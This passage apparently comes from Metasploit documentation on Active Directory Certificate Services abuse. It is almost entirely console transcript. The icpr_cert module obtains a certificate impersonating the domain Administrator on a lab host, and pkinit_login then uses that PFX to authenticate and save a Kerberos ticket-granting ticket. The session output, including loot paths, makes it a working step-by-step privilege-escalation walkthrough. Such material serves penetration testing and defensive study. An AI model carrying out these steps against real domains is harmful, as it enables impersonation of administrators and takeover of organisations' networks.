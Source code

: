 ```
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Finally we can use the `pkinit_login` module to log in to the domain as `Administrator@daforest.com` using the new PFX file:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use pkinit_login

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  auxiliary/admin/kerberos/pkinit_login                   normal  No     Kerberos Authentication Check Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/kerberos/pkinit_login

[*] Using auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216155910_default_172.30.239.85_mit.kerberos.cca_300840.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

```